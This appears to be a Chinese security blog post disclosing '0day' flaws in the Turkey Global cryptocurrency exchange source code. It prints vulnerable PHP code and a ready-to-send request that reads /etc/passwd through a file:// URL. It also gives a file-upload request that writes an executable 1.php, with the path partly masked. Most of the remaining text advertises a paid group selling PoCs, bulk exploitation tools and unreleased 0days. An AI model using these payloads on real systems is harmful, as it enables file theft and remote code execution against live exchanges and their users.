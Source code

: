 #  【0day】Turkey Global全开源9语言交易所审计   
 阿乐你好   2025-05-13 01:00  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
项目编号-10004   漏洞评估:9.8  
  
**Turkey Global全开源9语言交易所源码/币币交易/合约交易/秒合约交易/C2C交易/新币认购/理财，后端是fastadmin框架，计划任务用的是宝塔的监控插件，手机端没有k线，pc端有实时k线，但是pc里面k线的行情图有报错，程序自带了在线客服的插件.**  
  
****  
Fofa指纹:  
暂不公开  
  
![2025050618463073.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcQRMIdDWsOFm0Mnmcnv4QafGEdQeb7fY08IQ2wK7cNYfXSjebpVyDVQ/640?wx_fmt=other&from=appmsg "")  
![202505061846087.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcibVQrrK27Ckf6VttKmib4qf0Yc72r17BFwQnic1XI56JVHFeOiaJtNfiaLA/640?wx_fmt=other&from=appmsg "")  
![2025050618454085.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcDJClRiaGSNUk0y5bCnFj78vNxTrUvmetocydXCgkmMl0dktThEI7ZPw/640?wx_fmt=other&from=appmsg "")  
  
**框架:ThinkPHP 5.0.24 Debug:True**  
## 0x01 前台任意文件读取漏洞  
位于 /application/api/controller/Fanyi.php 控制器的 callOnce 方法通过传入url参数，进入curl_exec 中，导致漏洞产生.public function callOnce($url, $args=null, $method="post", $withCookie = false, $timeout = 10, $headers=array())  {/*{{{*/   $ch = curl_init();   if($method == "post")    {     $data = $this->convert($args);     curl_setopt($ch, CURLOPT_POSTFIELDS, $data);     curl_setopt($ch, CURLOPT_POST, 1);   }   else   {     $data = $this->convert($args);     if($data)      {       if(stripos($url, "?") > 0)        {         $url .= "&$data";       }       else       {         $url .= "?$data";       }     }   }   curl_setopt($ch, CURLOPT_URL, $url);   curl_setopt($ch, CURLOPT_TIMEOUT, $timeout);   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);   if(!empty($headers))    {     curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);   }   if($withCookie)   {     curl_setopt($ch, CURLOPT_COOKIEJAR, $_COOKIE);   }   $r = curl_exec($ch);   curl_close($ch);   return $r;  }  
**Payload:**  
```
GET /api/fanyi/callOnce?url=file:///etc/passwd HTTP/1.1Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7Cache-Control: no-cacheConnection: keep-aliveHost: 192.168.200.128Pragma: no-cacheUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcG1qsichW5It49bXy3qIDIBICgwnGyNYP6zuDGMJTzPwRjDZ203lmk0w/640?wx_fmt=png&from=appmsg "")  
## 0x02 前台RCE漏洞  
  
位于 /*****/*****/*****/***** 的FileUpload方法存在任意文件上传漏洞，且未加过滤，导致漏洞产生.  
  
Payload:  
  
```
POST /***/***/****/****/fileUpload HTTP/1.1Host: 192.168.200.128Content-Length: 997User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHx58bwavVjamnK8oAccept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close------WebKitFormBoundaryHx58bwavVja...... 完整Payload在文末------WebKitFormBoundaryHx58bwavVjaContent-Disposition: form-data; name="file"; filename="1.php"Content-Type: application/octet-stream<?php phpinfo();?>------WebKitFormBoundaryHx58bwavVjamnK8o--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAczlUuy27bzwfQA8DjY9nnsNagFMG1wmOHMcSvgavB4172dbuvwSInwA/640?wx_fmt=png&from=appmsg "")  
  
文件写入到  /1.php 访问即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcHsqVXraTlqVto2jMRtt65hfAnvN4LLJk60PO01faKpicqicMsibYgiaMBw/640?wx_fmt=png&from=appmsg "")  
## 0x02 知识星球  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
完整POC及源码已放在知识星球中，需要可自取!!!  
  
**高质量漏洞利用研究，代码审计圈子，每周至少更新三个0Day/Nday及对应漏洞的批量利用工具，团队内部POC，源码分享，星球不定时更新内外网攻防渗透技巧以及最新学习，SRC研究报告等。**  
  
**【圈子权益】**  
  
**1，一年至少999+漏洞Poc及对应漏洞批量利用工具**  
  
**2，各种漏洞利用工具及后续更新，渗透工具、文档资源分享**  
  
**3，内部漏洞库情报分享（目前已有150000+poc，会每日更新，包括部分未公开0/1day）**  
  
**4，加入内部微信群，遇到任何技术问题都可以进行快速提问、讨论交流；**  
  
**5，Fofa API 高级会员Key共享**  
  
**6,  高自动化代码审计工具共享**  
  
**圈子目前价格为已降价至129元，现在星球有1000+位师傅相信并选择加入我们**  
  
****  
**网站源码及漏洞库已于2025.5.12日更新**  
  
****  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5efdn10OrI6KuJRynyF3BIhdAXFwVWOKu2WkpehPyeW6H8u2unE5Tg297xNHhicv7y4dE1rXmHGGCQ/640?wx_fmt=jpeg&from=appmsg "")  
  
Fofa 高级会员 Key****  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcBUsQ86RewiciagSqyGFsD5GrPCKC6lop95HuichOjFVkgo0VuQvedibEcg/640?wx_fmt=png&from=appmsg "")  
  
超多审计资料，自动化审计工具  
  
![319d33192f5a9f019ec3f7a17cc25bb.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fOtUasHrnibBFTUkOIJJH5Goe8FhSg3arBlw7QLWsJl3xiczb5QnWfRKiaSvcMBPHLuwFjkWuuFicDwQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dVAUWP6LibARs3usK4kNz6g367ZEv3pT7cv8fl3YHMZH47sBH2IMy1J2XYeMNVXDJgLhP1yahI4pw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dPFicRheSpuSsBE8ZFeE6HwYQ7XZx91DUHD6M2jFjo9jwxZEnQs2PaU9jQAvYicVxtcIiaKI2QeRxqA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
****  
**圈子内部漏********洞库(日更)**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dO3JY3ibuSzzKb6JXHOsho8GllKEjcqXnSa6OY73aptxTiaibrLiaKrw85bDlFrRjR8aUGrxZKVQBTug/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**每篇文章均有完整指纹和详细POC**  
  
****  
**一起愉快地刷分**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff43kUoicsmnll86ficaMcTp1nDJvFuhT6INWEyGaCkEEclfEo8Ld6OBOzzJ3BkTVbrfqd41XhAhicA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dPFicRheSpuSsBE8ZFeE6HwwvkuIIecPQwHta0wibQuCqoSTqsc2K1KZDpJb3enDibBiau4EEhxrTYxA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff43kUoicsmnll86ficaMcTpt1uZwVAmW8XEscyvU51uc9sdiaHViaJKMEZyiaM4bAaQfGIPNd26u2A5w/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**上千套审计源码，包括各种协同办公OA**  
  
****  
**入圈之后可私信我帮你开通永久VIP，已开通各大源码站VIP**  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ddnP3GPD4EFbjricqxLYKEMbdFQjC7ZWqVCo8nDCz3kL1UhibTicP4Nmb2fa2RmsYHtXUiacMlkYkCNg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dbasJicXJDEOR85icHkfIda3gg2HpaWjW2MZN9KZdGzX99Ofl7SRETFA4TicFabIO2UGibSONn6bhXQw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**高质量代码审计社区**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eYsOmVcqiczEs2xZkicGt1u6HibInHPVngJzcM5jLf64ncdDFEN0Sfzo5jFkUspBiaCTftaSsheb5JIQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**PS:关注公众号，持续更新漏洞文章**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
